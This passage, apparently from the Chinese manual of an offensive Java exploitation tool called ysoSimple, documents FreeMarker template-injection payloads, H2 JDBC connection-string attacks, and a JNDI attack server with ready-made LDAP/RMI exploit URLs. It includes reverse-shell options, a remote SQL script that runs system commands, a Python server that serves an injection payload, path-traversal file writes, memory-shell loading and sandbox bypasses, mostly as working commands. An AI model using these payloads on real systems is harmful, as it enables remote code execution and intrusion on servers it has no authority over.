* ALLOWS_NOTHING_RESOLVER：禁止解析任何类。

工具：

* 因为底层是调用Runtime.exec直接进行命令执行，所以复杂的命令还需要Base64格式传参
* 生成俩种格式的Payload

```bash
-m SSTIAttack -g FreeMarkerExecute -a "calc"
```

##### JythonRuntime 命令执行(未集成)

描述：FreeMarker的 ?new 内建函数​freemarker.template.utility.JythonRuntim​e底层JythonRuntime进行命令执行

限制：FreeMarker的new_builtin_class_resolver配置限制内建函数对类的访问(从 2.3.17版开始)，该配置有三种参数：

* UNRESTRICTED_RESOLVER：可以通过`ClassUtil.forName(String)`​获得任何类。
* SAFER_RESOLVER：禁止加载`ObjectConstructor`​，`Execute`​和`freemarker.template.utility.JythonRuntime`​这三个类
* ALLOWS_NOTHING_RESOLVER：禁止解析任何类。

工具：网上Payload有问题，暂时未集成测试

```bash
-m SSTIAttack -g FreeMarkerJythonRunntime -a "calc"
```

##### ObjectConstructor 实例化对象

描述：FreeMarker的 ?new 内建函数freemarker.template.utility.ObjectConstructor可根据构造函数参数实例化出一个对象。该方式做漏洞攻击时最为方便的就是js加载内存马

限制：FreeMarker的new_builtin_class_resolver配置限制内建函数对类的访问(从 2.3.17版开始)，该配置有三种参数：

* UNRESTRICTED_RESOLVER：可以通过`ClassUtil.forName(String)`​获得任何类。
* SAFER_RESOLVER：禁止加载`ObjectConstructor`​，`Execute`​和`freemarker.template.utility.JythonRuntime`​这三个类
* ALLOWS_NOTHING_RESOLVER：禁止解析任何类。

说明：jMG已经支持ObjectConstructor直接注入内存马，但是通常情况下我们并不一定直接打马，有可能会先测试字节码延迟和字节码dnslog来判断是否能加载字节码。

工具：

* 目前支持ObjectConstructor实例化出java.lang.ProcessBuilder进行命令执行
* 目前支持ObjectConstructor实例化出javax.script.ScriptEngineManager来加载js进行利用

ProcessBuilder实例化进行命令执行

```bash
-m SSTIAttack -g FreeMarkerObjectConstructor -a "cmd:calc"
```

ScriptEngineManager加载js执行字节码：注意：

* JavaScript加载同类名字节码只能打一次，第二次就不行，所以做漏洞利用时记得切换类名。

```java
-m SSTIAttack -g FreeMarkerObjectConstructor -a "JSExpression:auto_cmd:calc"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数。

#### ?api 利用(还未集成)

描述：Freemarker内置函数?api可以调用对象的方法，但是这个对象的需要是数据模型或者是已经定义的对象，具体不太清楚，也有沙箱的限制

限制：在FreeMarker中api_builtin_enabled为true时才有效，而该配置在2.3.22版本之后默认为false

工具：

```bash
-m SSTIAttack -g FreeMarkerAPI -a ""
```

#### StaticModel 配置(还未集成)

描述：FreeMarker支持的StaticModel配置支持调用静态方法，但该配置需要手动开启

限制：需要目标应用开启StaticModel配置

工具：目前只支持JNDI的利用

```bash
-m SSTIAttack -g FreeMarkerStaticModel -a ""
```

#### dataModel 数据模型(FreeMarker<2.3.30过沙箱)

描述：FreeMarker<2.3.30时由于自身沙箱机制过滤不完全导致可以通过应用中携带的数据模型获取class对象然后获取classloader进而进行利用

限制：FreeMarker<2.3.30且应用有设置数据模型

工具：

* 目前仅支持实例化出javax.script.ScriptEngineManager来加载js进行利用
* 第一个site参数是数据模型，后面的参数写字节码执行的多种漏洞利用效果参数
* JavaScript加载同类名字节码只能打一次，第二次就不行了。

```java
-m SSTIAttack -g FreeMarkerDataModel -a "site:auto_cmd:calc"
```

#### springMacroRequestContext Request上下文RCE

描述：FreeMarker如果开启SpringMacroHelper的配置，可通过该变量获取到webApplicationContext上下文然后开启NewBuiltinClassResolver配置进而通过Execute/ObjectConstructor/JythonRuntime继续进行漏洞利用

限制：FreeMarker开启SpringMacroHelper的配置且能在可控的模板中使用springMacroRequestContext数据模型

工具：第一个参数为FreeMarkerExecute/FreeMarkerJythonRunntime/FreeMarkerObjectConstructor；第二个参数为ysoSimple在FreeMarker的?new三种方式Payload生成的利用参数

springMacroRequestContext开启NewBuiltinClassResolver，利用FreeMarkerExecute内置函数执行命令

```bash
-m SSTIAttack -g FreeMarkerSpringMacro -a "FreeMarkerExecute:calc"
```

springMacroRequestContext开启NewBuiltinClassResolver，利用FreeMarkerObjectConstructor内置函数加载字节码。下面这组命令

```java
-m SSTIAttack -g FreeMarkerSpringMacro -a "FreeMarkerObjectConstructor:JSExpression:auto_cmd:calc"
```

生成效果：

```java
<#assign applicationContext=springMacroRequestContext.webApplicationContext>
${applicationContext}
<#assign fc=applicationContext.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>
${"freemarker.template.utility.Execute"?new()("calc")}
```

## 8.JdbcAttack Payload(​JdbcAttack)

工具集成常见的​JdbcAttack Payload，这些都是原始的连接串。下面是些注意事项：

* 如果它们需要被嵌套在Fastjson中等进行利用，需要进行关键字符转义操作
* 某些JDBC连接串因为自身语法必须添加换行符等

### H2DataBase

认知：H2DataBase数据库的打法是通过执行SQL语句来RCE的，而H2数据库建立连接时INIT参数配置正好支持执行多条SQL语句。

ysoSimple：工具中的H2DataBase系列Payload生成都是生成连接串：

|连接串|参数|功效|备注|
| ---------------| ------------------------------| ------------------------------------------------------------------------| ----------------------------------------------------------------------------------------------------------------|
|H2CreateAlias|auto_cmd:calc|因为是Java代码执行所以支持漏洞利用参数中的Java代码的漏洞利用效果参数<br />|1..如果攻防中INIT参数被过滤可以使用`ı`​大小写转换绕过，参考：https://rce.moe/2023/07/28/Metabase-CVE-2023-38646/|
|H2RunScript|http://127.0.0.1:2333/update|远程加载sql文件执行多组sql语句|1.关于.sql文件名后缀可以没有|
|H2Groovy|auto_cmd:calc|调用Groovy引擎执行JS表达式再执行Java代码|1.H2支持调用Groovy引擎|
|H2JavaScript|auto_cmd:calc|调用JavaScript引擎执行Java代码|1.H2支持调用JavaScript引擎<br />|

H2连接时的一些配置参数：

* TRACE_LEVEL_SYSTEM_OUT=3
* MODE=MSSQLServer

#### H2CreateAlias 执行Java

描述：支持使用CREATE ALIAS来创建函数，函数体里面可以执行Java代码

工具：因为载体是代码执行，H2CreateAlias链子的args参数可以是Java代码漏洞利用效果的参数

```bash
#延迟测试
-m JdbcAttack -g H2CreateAlias -a "sleep:5"

#反弹Shell
-m JdbcAttack -g H2CreateAlias -a "reverse_shell:127.0.0.1:2333"

#unsafe进行字节码加载
-m JdbcAttack -g H2CreateAlias -a "unsafe_defineAnonymousClass:class_file:<class_file_path>"

#classloader进行字节码加载
-m JdbcAttack -g H2CreateAlias -a "classloader_defineclass:class_file:<class_file_path>"
```

#### H2RunScript 远程加载sql文件

描述：INIT RUNSCRIPT加载远程sql文件并执行其中的SQL语句，文件的sql后缀可有可无

工具：使用方式如下：

```bash
-m JdbcAttack -g H2RunScript -a "http://127.0.0.1:2333/update"
```

远程SQL文件：update 文件

```sql
DROP alias if EXISTS Exploit_y5d;
CREATE ALIAS Exploit_y5d AS $$void Exploit_y5d() throws Exception {String[] cmds = null;
String osType = System.getProperty("os.name").toLowerCase();
if(osType.contains("windows")){
    cmds = new String[]{"cmd.exe","/c",new java.lang.String(new byte[]{99,97,108,99})};
}else{
    cmds = new String[]{"/bin/sh","-c",new java.lang.String(new byte[]{99,97,108,99})};
}
java.lang.Runtime.getRuntime().exec(cmds);}$$;SELECT Exploit_y5d();
```

#### H2Groovy 执行Groovy语法

描述：使用H2的Create Trigger方式来触发的Groovy表达式执行。

工具：工具没有使用Groovy的Java代码来完成漏洞利用操作而是调用JS表达式来执行字节码达到的利用效果。args参数可以是代码执行漏洞利用效果的参数

```bash
#延迟测试
-m JdbcAttack -g H2Groovy -a "sleep:5"

#反弹Shell
-m JdbcAttack -g H2Groovy -a "reverse_shell:127.0.0.1:2333"

#unsafe进行字节码加载
-m JdbcAttack -g H2Groovy -a "unsafe_defineAnonymousClass:class_file:<class_file_path>"

#classloader进行字节码加载
-m JdbcAttack -g H2Groovy -a "classloader_defineclass:class_file:<class_file_path>"
```

#### H2StaticMethod 执行Java静态方法

描述：CREATE ALIAS FOR的H2 SQL语句支持调用Java静态方法，但是需要执行俩步SQL语句。目前支持JNDI静态方法打法，而且这个方式应该是对部分API有所限制：org.h2.jdbc.JdbcSQLDataException: Serialization failed, cause: "java.io.NotSerializableException: com.sun.jndi.dns.DnsContext"; SQL statement:

工具：只适配了jndi所以直接写jndi的地址

```bash
-m JdbcAttack -g H2StaticMethod -a "dns://dawoegr.dnslog.cn"
```

#### H2JavaScript 执行JavaScript

描述：H2支持执行JavaScript表达式的语句，用它来做漏洞利用；需要注意使用classloader来加载java字节码只能触发一次漏洞利用效果，第二次就不行了。所以推荐使用unsafe的方式来执行Java字节码，它没有这个问题。

工具：使用方式如下：

```bash
#延迟测试
-m JdbcAttack -g H2JavaScript -a "sleep:5"

#执行命令
-m JdbcAttack -g H2JavaScript -a "auto_cmd:calc"

#unsafe执行java字节码
-m JdbcAttack -g H2JavaScript -a "unsafe_defineAnonymousClass:class_file:<class_file_path>"

#classloader执行java字节码
-m JdbcAttack -g H2JavaScript -a "classloader_defineclass:class_file:<class_file_path>"
```

## 9.JNDI服务器(​JNDIAttack)

当时学习JNDI注入时候从浅蓝师傅的[JNDI漏洞的利用手法](https://tttang.com/user/%E6%B5%85%E8%93%9D)和X1r0z师傅的[JNDIMap](https://github.com/X1r0z/JNDIMap)工具中学到很多思路，X1r0z师傅的这款工具写的很好，我把大师傅的套过来简单修改了下便于实战使用。

Usage：一键开启LDAP，RMI，HTTP服务器

```bash
java -jar ysoSimple.jar -m JNDIAttack [-i <ip>] [-r <rmi-Port>] [-l <ldap-Port>] [-p <http-Port>] [-u <jndi-url>] [-ju <jndi-useReferenceOnly>]
```

`-i`: 服务器监听 IP (必须指定一个目标可访问到的 IP, 例如 192.168.1.100, 不能用 0.0.0.0)

`-r`: RMI 服务器监听端口, 默认为 ​1099

`-l`: LDAP 服务器监听端口, 默认为 ​1389

`-w`: HTTP 服务器监听端口, 默认为 ​3456

`-u`: 手动指定 JNDI 路由, 例如 `/Basic/auto_cmd/calc`​ (如：LdapAttribute场景的JNDI URL不可控)

`-ju`: 让LDAP服务使用 javaReferenceAddress 直接返回Reference对象

jndi url中的漏洞利用参数可以直接使用也可以Base64 URL 编码，直接传参数打不通的时候传递Base64编码后的参数试一试。

### 一些关键的配置

#### -i 指定服务器ip

`-i`​：服务器监听使用的IP(须指定一个目标可访问到的 IP, 例如 ​192.168.1.100, 不能用 0.0.0.0)

```python
-m JNDIAttack -i 127.0.0.1
```

#### -r/-l-/-w 指定三个服务器的端口

指定服务器的端口：

```java
-m JNDIAttack -i 127.0.0.1 -r 1234 -l 1235 -w 1236
```

#### -u 自定义连接串

`-u`​：手动指定 JNDI 路由, 例如 `/Basic/auto_cmd/calc`​ (某些场景的 JNDI URL 不可控，比如说LdapAttribute打ldap注入的场景下)

配置自定义连接串后无论咋样的jndi url都会交于JNDI服务器的`/Basic/auto_cmd/calc`​处理器处理

```python
-m JNDIAttack -i 127.0.0.1 -u /Basic/auto_cmd/Y2FsYw==
```

####  -ju 用 javaReferenceAddress 返回Reference对象

`-ju`： -jndi-useReferenceOnly参数可让LDAP服务使用 javaReferenceAddress 直接返回Reference对象，从而绕过jdk高版本因为`com.sun.jndi.ldap.object.trustSerialData` 为false对javaSerializedData返回Reference对象的限制。

```
-m JNDIAttack -i 127.0.0.1 -ju
```

### RMI/LDAP Basic远程工厂类加载

描述：Jdk小于 8u121(RMI 协议)或 8u191(LDAP 协议)时支持从远程加载ObjectFactory工厂类，该部分Payload是基于此种攻击手法进行漏洞利用

限制：jdk<8u121 RMI协议，jdk<8u191 LDAP协议

工具：引用ThirdParyAttack模块辅助生成字节码，使用ldap和rmi都是一样的攻击url：

```python
# 发起 DNS 请求
ldap://127.0.0.1:1389/Basic/dnslog/bynamkbors.iyhc.eu.org
ldap://127.0.0.1:1389/Basic/dnslog/ZG9tYWluLmxvZ2Rucy5vcmc=

# 使用 Sleep 进行延迟
ldap://127.0.0.1:1389/Basic/sleep/5
ldap://127.0.0.1:1389/Basic/sleep/NQ==

# 自动识别系统命令执行
ldap://127.0.0.1:1389/Basic/auto_cmd/calc
ldap://127.0.0.1:1389/Basic/auto_cmd/Y2FsYw==

# 自定义字节码
# 从运行JNDI所在的服务器路径上加载字节码(base64-url-encoded-path-to-evil-class-file为恶意字节码在服务器上的路径),可直接写jMG生成的内存马路径
ldap://127.0.0.1:1389/Basic/class_file/<base64-url-encoded-path-to-evil-class-file>
```

### BeanFactory 本地工厂类打法

#### BeanFactory 打法介绍

描述：JDK8u191以上版本，不支持从远程加载恶意的ObjectFactory，但是可以在返回的Reference中指定本地的ObjectFactory，本地工厂类须在受害目标本地的CLASSPATH中。我们可以寻找常见的实现javax.naming.spi.ObjectFactory接口的类，并且存在 getObjectInstance()方法。且最终能够实现文件读/文件写/命令执行/代码执行等恶意操作的类。本部分是关于BeanFactory利用方式，它能够触发某个类的单参数方法。

限制：BeanFactory利用成功需要以下条件：

1. 目标环境中存在Tomcat相关依赖(因为BeanFactory在其中)，并且其也受Tomcat版本限制，高版本和低版本都不行：

    * 低版本的tomcat又不支持"forceString"属性，比如说tomcat8.0.15
    * 高版本的 tomcat 依赖包 (8.5.85) 已经禁用了 forceString

2. MLet探测类存在：见下面
3. EL-Processor表达式限制：见下面
4. Groovy表达式限制：见下面
5. SnakeYaml反序列化限制：见下面

#### MLet 探测Class

描述：javax.management.loading.MLet继承自URLClassLoader，addURL方法会访问远程服务器，loadClass方法可以检测目标是否存在某个类，因此可以结合使用用于检测某个类是否存在。当某个类存在时候远端HTTP服务器会收到请求

限制：依托BeanFactory类进行利用

工具：使用 MLet 探测 classpath 中存在的类。如果 `com.example.TestClass`​ 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class`​ 请求。可能需要探测的类：

```python
java.lang.String #判定BeanFactory打法是否可行，需要依托HTTP出网
java.util.Base64
javax.el.ELProcessor
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
......
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory
com.zaxxer.hikari.HikariJNDIFactory
com.alibaba.druid.pool.DruidDataSourceFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
......
groovy.sql.Sql
......
org.springframework.context.support.ClassPathXmlApplicationContext
......
org.postgresql.Driver
```

使用方式：

```python
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

#### BeanFactory-EL表达式执行

描述：`javax.el.ELProcessor`​的`eval`​方法接受的参数可以执行EL表达式，结合BeanFactory可进行漏洞利用。

限制：依托BeanFactory类进行利用，需要EL表达式依赖。Tomcat7(没有ELProcessor)

工具：因为JS是个很好执行Java字节码的载体，工具使用EL执行ScriptEngineManager(JS)来执行Java字节码从而到达漏洞利用效果，使用方式：

```python
# 发起 DNS 请求
ldap://127.0.0.1:1389/TomcatBypass/dnslog/domain.logdns.org
ldap://127.0.0.1:1389/TomcatBypass/dnslog/ZG9tYWluLmxvZ2Rucy5vcmc=

# 使用 Sleep 进行延迟
ldap://127.0.0.1:1389/TomcatBypass/sleep/5
ldap://127.0.0.1:1389/TomcatBypass/sleep/NQ==

# 自动识别系统命令执行
ldap://127.0.0.1:1389/TomcatBypass/auto_cmd/calc
ldap://127.0.0.1:1389/TomcatBypass/auto_cmd/Y2FsYw==

# 自定义字节码
# 从运行JNDI所在的服务器路径上加载字节码(base64-url-encoded-path-to-evil-class-file为恶意字节码在服务器上的路径),可直接写jMG生成的内存马路径
ldap://127.0.0.1:1389/TomcatBypass/class_file/<base64-url-encoded-path-to-evil-class-file>
```

#### BeanFactory-Groovy Shell利用

##### Groovy-Shell打法

描述：`groovy.lang.GroovyShell`​类的`evaluate`​方法是单参数形式可以被BeanFactory使用

限制：依托BeanFactory类进行利用，

工具：

```python
# 线程sleep探测是否存在Groovy Shell注入
ldap://127.0.0.1:1389/GroovyShell/sleep/5
ldap://127.0.0.1:1389/GroovyShell/sleep/NQ==

# 以Runtime为载体的Java命令执行
ldap://127.0.0.1:1389/GroovyShell/auto_cmd/calc
ldap://127.0.0.1:1389/GroovyShell/auto_cmd/Y2FsYw==

# 自定义字节码
# 从运行JNDI所在的服务器路径上加载字节码(base64-url-encoded-path-to-evil-class-file为恶意字节码在服务器上的路径),可直接写jMG生成的内存马路径
ldap://127.0.0.1:1389/GroovyShell/class_file/<base64-url-encoded-path-to-evil-class-file>
ldap://127.0.0.1:1389/GroovyShell/class_file//tmp/T3630456155100.class
ldap://127.0.0.1:1389/GroovyShell/class_file/L3RtcC9UMzYzMDQ1NjE1NTEwMC5jbGFzcw==
```

##### Groovy-ClassLoader打法

描述：`groovy.lang.GroovyClassLoader`​类的`parseClass`​方法是单参数形式可以被BeanFactory使用

限制：依托BeanFactory类进行利用，注入内存马

工具：

```python
# 线程sleep探测是否存在GroovyClassLoader注入
ldap://127.0.0.1:1389/GroovyClassLoader/sleep/5
ldap://127.0.0.1:1389/GroovyClassLoader/sleep/NQ==

# 以Runtime为载体的Java命令执行
ldap://127.0.0.1:1389/GroovyClassLoader/auto_cmd/calc
ldap://127.0.0.1:1389/GroovyClassLoader/auto_cmd/Y2FsYw==

# 自定义字节码
# 从运行JNDI所在的服务器路径上加载字节码(base64-url-encoded-path-to-evil-class-file为恶意字节码在服务器上的路径),可直接写jMG生成的内存马路径
ldap://127.0.0.1:1389/GroovyClassLoader/class_file/<base64-url-encoded-path-to-evil-class-file>
ldap://127.0.0.1:1389/GroovyClassLoader/class_file//tmp/T3630456155100.class
ldap://127.0.0.1:1389/GroovyClassLoader/class_file/L3RtcC9UMzYzMDQ1NjE1NTEwMC5jbGFzcw==
```

#### BeanFactory-SnakeYaml反序列化

SnakeYaml反序列化的参数也是单参数的形式，牵扯到SnakeYaml反序列化的话可以打的方式挺多的：

* ~~SnakeYaml反序列化打JNDI：JdbcRowImpl，C3P0 JndiRefForwardingDataSource、、~~
* SnakeYaml反序列化打URLClassLoader远程类加载：ScriptEngineManager
* ~~SnakeYaml反序列化打Java反序列化：C3P0 WrapperConnectionPoolDataSource~~

描述：SnakeYaml反序列化还有Java反序列化的打法，但是JNDI有LDAP打Java反序列化所以这个没必要

限制：依托BeanFactory类进行利用，

工具：ScriptEngineManager进行URLClassLoader远程类加载：

```python
# 发起 DNS 请求
ldap://127.0.0.1:1389/SnakeYaml/dnslog/domain.logdns.org
ldap://127.0.0.1:1389/SnakeYaml/dnslog/ZG9tYWluLmxvZ2Rucy5vcmc=

# 使用 Sleep 进行延迟
ldap://127.0.0.1:1389/SnakeYaml/sleep/5
ldap://127.0.0.1:1389/SnakeYaml/sleep/NQ==

# 自动识别系统命令执行
ldap://127.0.0.1:1389/SnakeYaml/auto_cmd/calc
ldap://127.0.0.1:1389/SnakeYaml/auto_cmd/Y2FsYw==

# 自定义字节码
# 从运行JNDI所在的服务器路径上加载字节码(base64-url-encoded-path-to-evil-class-file为恶意字节码在服务器上的路径),可直接写jMG生成的内存马路径
ldap://127.0.0.1:1389/SnakeYaml/class_file/<base64-url-encoded-path-to-evil-class-file>
```

### GenericNamingResourcesFactory 本地工厂类触发Setter方法

在tomcat-jdbc.jar包中有个`org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory`类，它的`getObjectInstance`方法会将ResourceRef指定的resourceClass目标类进行无参实例化并调用该类的setter方法(setter方法参数为单字符串参数)。所以说如果有某个类的单参数setter方法有危险的利用就可以搭配GenericNamingResourcesFactory进行组合。

参考资料：[Java_JDBC(commonscollection3.2.2)Bypass](https://www.freebuf.com/articles/web/388411.html) [avss geekcon初赛old-log学习](https://xz.aliyun.com/t/14579)

#### SystemConfiguration修改系统属性

描述：setter方法常见的攻击方式有修改系统属性，commons-configuration.jar中的SystemConfiguration.setSystemProperties(String fileName)。groovy.jar中的SystemUtil.setSystemPropertyFrom(String nameValue)。

但是修改系统属性还需要注意生效的问题，jndi安全防护机制相关的系统属性由于是在类加载的时候即已设定，所以在程序运行时候将无法修改。但是如果像CC3.2.2的安全防护机制因为是在实时获取系统属性，所以可以修改成功然后打链子：`org.apache.commons.collections.functors.FunctorUtils#checkUnsafeSerialization`

限制：依托于`GenericNamingResourcesFactory`​工厂类，有commons-configuration.jar或者groovy.jar能设置系统属性的依赖。只能修改实时获取的系统属性

工具：目前工具集成的是GenericNamingResourcesFactory通过commons-configuration.jar的`SystemConfiguration#setSystemProperties`​方法修改系统属性：

```python
ldap://127.0.0.1:1389/Setter/SystemConfiguration/a=1
ldap://127.0.0.1:1389/Setter/SystemConfiguration/YT0x

ldap://127.0.0.1:1389/Setter/SystemConfiguration/org.apache.commons.collections.enableUnsafeSerialization=true
ldap://127.0.0.1:1389/Setter/SystemConfiguration/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmVuYWJsZVVuc2FmZVNlcmlhbGl6YXRpb249dHJ1ZQ==
```

####  JSVGCanvas远程加载svg到远程jar加载

学习参考：[CVE-2022-39197 CS RCE复现分析](http://www.bmth666.cn/2023/03/22/CVE-2022-39197-CS-RCE复现分析/index.html)  [一次曲折的JDK反序列化到JNDI注入绕(no forceString)](https://stack.chaitin.com/techblog/detail/249)  [SVG files and Java code execution](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)

描述：org.apache.batik.swing.JSVGCanvas的setURI方法可以远程加载svg文件，然后远程svg文件绑定远程jar包地址即可实现任意代码执行。正好org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory的getObjectInstance可以调用setURI方法实现利用。org.apache.batik.bridge.BaseScriptingEnvironment#loadScript方法中会读取远程jar包中MANIFEST.MF文件SVG-Handler-Class指定的类名进行加载并实例化。所以jar包中只需要写个普通的恶意类就行也不要继承或者实现什么接口：


工具：JSVGCanvas后面直接写漏洞利用效果

```python
ldap://127.0.0.1:1389/Setter/JSVGCanvas/auto_cmd/calc
ldap://127.0.0.1:1389/Setter/JSVGCanvas/auto_cmd/Y2FsYw==

# sleep效果经过测试发现不成功,目前不知道原因,所以改为httplog的形式检测
ldap://127.0.0.1:1389/Setter/JSVGCanvas/httplog/http://127.0.0.1:8000/123
ldap://127.0.0.1:1389/Setter/JSVGCanvas/httplog/aHR0cDovLzEyNy4wLjAuMTo4MDAwLzEyMw==
```

### MemoryUserDatabaseFactory 本地工程类写文件

[JNDI Injection Remote Code Execution via Path Manipulation in MemoryUserDatabaseFactory](https://srcincite.io/blog/2024/07/21/jndi-injection-rce-via-path-manipulation-in-memoryuserdatabasefactory.html)

[探索高版本 JDK 下 JNDI 漏洞的利用方法](https://b1ue.cn/archives/529.html)

[JNDI 高版本写文件新Gadget](https://t.zsxq.com/YzCzU)

描述：org.apache.catalina.users.MemoryUserDatabaseFactory 该类位于 tomcat-embed-core 中算是比较通用的类。`MemoryUserDatabaseFactory#getObjectInstance`​方法可以根据pathname和readonly参数创建文件并且二者都来自于 Reference 对象。

使用该工厂类需要满足以下条件：

* 需要目标服务器HTTP出网
* 写文件的上级目录必须存在

`MemoryUserDatabaseFactory`​写文件的关键代码如下：

1. 创建fileNew文件(路径为"catalina.base"属性的路径 + pathnameNew文件名)，pathnameNew文件名为 pathname 加后缀`.new`​(即 ../../../../poc.jsp.new)
2. isWriteable() 方法判断 fileNew 所在的目录是否存在且可写。如果满足则返回true
3. 文件被重命名为原始名称，删除扩展名`.new`​

```java
public void save() {
    ...
    if (!isWriteable()) { // 8
        log.warn(sm.getString("memoryUserDatabase.notPersistable"));
        return;
    }

    File fileNew = new File(this.pathnameNew); // 9
    if (!fileNew.isAbsolute()) {
        fileNew = new File(System.getProperty("catalina.base"), this.pathnameNew);
    }

    this.writeLock.lock();
    try {
        try(FileOutputStream fos = new FileOutputStream(fileNew);
            OutputStreamWriter osw = new OutputStreamWriter(fos, StandardCharsets.UTF_8);
            PrintWriter writer = new PrintWriter(osw)) {

            writer.println("<?xml version='1.0' encoding='utf-8'?>");
            writer.println("<tomcat-users xmlns=\"http://tomcat.apache.org/xml\"");
            writer.print("              ");
            writer.println("xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"");
            writer.print("              ");
            writer.println("xsi:schemaLocation=\"http://tomcat.apache.org/xml tomcat-users.xsd\"");
            writer.println("              version=\"1.0\">");

            values = null;
            values = getRoles();
            while (values.hasNext()) {
                writer.print("  ");
                writer.println(values.next()); // 10
            }
            values = getGroups();
            while (values.hasNext()) {
                writer.print("  ");
                writer.println(values.next());
            }
            values = getUsers();
            while (values.hasNext()) {
                writer.print("  ");
                writer.println(((MemoryUser)values.next()).toXml());
            }
        } catch (IOException e) {
            ...
        }
        this.lastModified = fileNew.lastModified();
    } finally {
        this.writeLock.unlock();
    }
    ...
    File fileOrig = new File(this.pathname);
    ...
    if (!fileNew.renameTo(fileOrig)) { // 11
        if (fileOld.exists() &&
            !fileOld.renameTo(fileOrig)) {
            log.warn(sm.getString("memoryUserDatabase.restoreOrig", new Object[] { fileOld }));
        }

        throw new IOException(sm.getString("memoryUserDatabase.renameNew", new Object[] { fileOrig
                .getAbsolutePath() }));
    }
    if (fileOld.exists() && !fileOld.delete()) {
        throw new IOException(sm.getString("memoryUserDatabase.fileDelete", new Object[] { fileOld }));
    }
}
```

限制：依托于MemoryUserDatabaseFactory工厂类，写入的文件中会有多余的内容。

工具：一般来说JNDI写文件用的不是太多，再加上MemoryUserDatabaseFactory打法稍微复杂下所以没有适配WebServer。目前打法如下：

HTTP服务器开启监听：JNDI客户端会读取rolename中的内容然后写入文件中，我们或许可以写入EL表达式进行利用

```python
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer

class el(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.lower().strip().endswith('/poc.jsp'):
            print("(+) request recieved: %s" % self.path)
            message = """<tomcat-users>
    <role rolename="${Runtime.getRuntime().exec('calc')}" />
</tomcat-users>"""
            self.send_response(200)
            self.end_headers()
            self.wfile.write(message.encode('utf-8'))
            self.wfile.write('\n'.encode('utf-8'))
        return

if __name__ == '__main__':
    HTTPServer(('127.0.0.1', 1337), el).serve_forever()
```

攻击payload：

```python
rmi://127.0.0.1:1099/WriteFile/http://127.0.0.1:1337/../../../../../../../../../SUCCESS/poc.jsp
rmi://127.0.0.1:1099/WriteFile/aHR0cDovLzEyNy4wLjAuMToxMzM3Ly4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL1NVQ0NFU1MvcG9jLmpzcA==
```

最后写入的文件内容：

### JDBC 工厂类打法

#### JDBC Factory工厂类打法

在很多的数据库连接池中都有Factory工厂类继承自ObjectFactory，而这些工厂类又都和数据库连接相关，所以可通过数据库连接池的工厂类进行JDBCAttack攻击。

* Commons DBCP：CommonsDBCP1/CommonsDBCP2
* Tomcat DBCP：TomcatDBCP1/TomcatDBCP2
* Alibaba Druid：Druid
* HikariCP：HikariCP
* Tomcat JDBC(DataSourceFactory)：/TomcatJDBC

将jndi连接串URL中的Factory替换为 CommonsDBCP1/CommonsDBCP2/TomcatDBCP1/TomcatDBCP2/Druid/HikariCP 其中之一

#### MySQL

mysql-connector-java客户端连接读文件和触发Java反序列化的打法也是很经典，像Fastjson反序列化利用链中也有它的影子

##### detectCustomCollations

描述：关于mysql-connector-java客户端连接触发Java反序列化不同的mysql-connector-java客户端连接版本是用不同的属性来触发，在(5.1.19-5.1.48, 6.0.2-6.0.6)版本是用detectCustomCollations来触发。

工具：

```python
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize1/127.0.0.1/3306/root
```

##### **ServerStatusDiffInterceptor**

描述：在mysql-connector-java客户端的一些版本使用ServerStatusDiffInterceptor属性来触发的，但是ServerStatusDiffInterceptor对应的属性值也是不同的，所以分成下面几种：

